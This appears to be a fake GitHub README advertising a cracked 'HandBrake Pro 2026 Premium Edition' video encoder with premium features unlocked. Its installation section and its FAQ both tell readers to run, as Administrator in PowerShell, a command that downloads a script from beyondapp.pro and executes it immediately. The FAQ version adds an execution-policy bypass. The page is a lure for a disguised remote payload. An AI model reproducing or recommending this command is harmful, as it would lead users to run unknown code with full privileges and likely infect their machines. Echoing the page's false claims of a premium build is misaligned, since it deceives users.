

<div align="center">


<br>


# HandBrake Pro 2026 Custom Presets Encoder Premium Edition
**Custom preset library included · Hardware encoding enabled · Batch queue unlimited**
<br>
**Custom preset library included · Hardware encoding enabled · Batch queue unlimited**
<br>
Premium · Pro · Full build · Windows



**HandBrake Pro 2026 — video transcoder with custom presets, hardware encoding and batch conversion on Windows.**

</div>

---

> One-command PowerShell install — download, unpack, and setup run automatically on Windows.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- ✨ **Premium modules** — Paid features and pro tools enabled in this build.
- 📦 **Local install** — Works offline after one-time setup.
- 🖥️ **Windows native** — Optimized for Windows 10/11 64-bit.
- 🧰 **Complete toolkit** — Libraries, presets and templates included.
- ⚙️ **Pro workflow** — Suitable for daily professional use.
- ⚡ **Fast deployment** — One PowerShell command handles setup.
- 📋 **Ready to use** — Installer delivered through the release package.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 20 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 20 GB free space.
</details>


TAGS
handbrake, video-encoder, transcoding, video, conversion, media, open-source, handbrake-pro-custom, handbrake-pro-custom-2026, handbrake-pro-custom-pc, video-editing, post-production, content-creation, media-editing, filmmaking
